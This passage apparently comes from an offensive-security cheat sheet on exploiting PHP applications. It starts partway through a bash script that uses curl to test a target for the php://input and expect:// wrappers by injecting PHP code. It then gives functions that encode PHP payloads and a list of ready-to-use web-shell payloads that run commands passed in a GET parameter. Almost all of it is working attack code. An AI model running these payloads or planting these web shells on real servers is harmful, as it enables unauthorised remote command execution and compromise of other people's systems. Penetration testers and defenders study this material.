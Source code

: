 ```bash
[ "$result" -gt 0 ] && echo "✓ Available" || echo "✗ Not available"

# Test input wrapper
echo -n "Input wrapper: "
result=$(curl -s -X POST --data '<?php echo "WORKING"; ?>' "${TARGET}php://input" | grep -o "WORKING" | wc -l)
[ "$result" -gt 0 ] && echo "✓ Available" || echo "✗ Not available"

# Test expect wrapper
echo -n "Expect wrapper: "
result=$(curl -s "${TARGET}expect://echo WORKING" | grep -o "WORKING" | wc -l)
[ "$result" -gt 0 ] && echo "✓ Available" || echo "✗ Not available"

echo "[+] Testing complete."
EOF
chmod +x test_php_wrappers.sh
```

### Payload Generation Tools

**Base64 PHP Payload Generator:**
```bash
# PHP payload encoder
encode_php_payload() {
    local payload="$1"
    echo -n "$payload" | base64 | tr -d '\n'
}

# Usage examples
encode_php_payload '<?php system($_GET["cmd"]); ?>'
encode_php_payload '<?php echo shell_exec($_GET["cmd"]); ?>'
```

**URL Encoding Helper:**
```bash
# URL encode PHP payloads
url_encode_payload() {
    echo "$1" | python3 -c "import sys, urllib.parse; print(urllib.parse.quote(sys.stdin.read().strip()))"
}

# Usage
url_encode_payload '<?php system("id"); ?>'
```

### Common PHP RCE Payloads

**Web Shell Payloads:**
```php
// Basic command execution
<?php system($_GET["cmd"]); ?>

// Enhanced web shell
<?php
if(isset($_GET["cmd"])) {
    echo "<pre>";
    echo shell_exec($_GET["cmd"]);
    echo "</pre>";
} else {
    echo "Usage: ?cmd=command";
}
?>

// File operations
<?php
```